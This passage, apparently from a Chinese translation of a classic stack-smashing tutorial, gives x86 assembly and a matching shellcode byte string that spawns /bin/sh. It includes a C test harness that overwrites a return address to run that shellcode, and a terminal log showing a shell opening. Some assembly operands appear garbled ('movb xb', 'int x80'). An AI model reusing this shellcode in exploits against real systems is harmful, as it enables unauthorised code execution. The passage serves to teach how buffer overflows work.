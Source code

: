 改进后的代码：

shellcodeasm2.c

```
void main() {
    __asm__("
        jmp 0x1f # 2 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        xorl %eax,%eax # 2 bytes
        movb %eax,0x7(%esi) # 3 bytes
        movl %eax,0xc(%esi) # 3 bytes
        movb xb,%al # 2 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        xorl %ebx,%ebx # 2 bytes
        movl %ebx,%eax # 2 bytes
        inc %eax # 1 bytes
        int x80 # 2 bytes
        call -0x24 # 5 bytes
        .string \"/bin/sh\" # 8 bytes
        # 46 bytes total
    ");
}
```

我们的新测试程序：

testsc2.c

```
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```

```
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
```
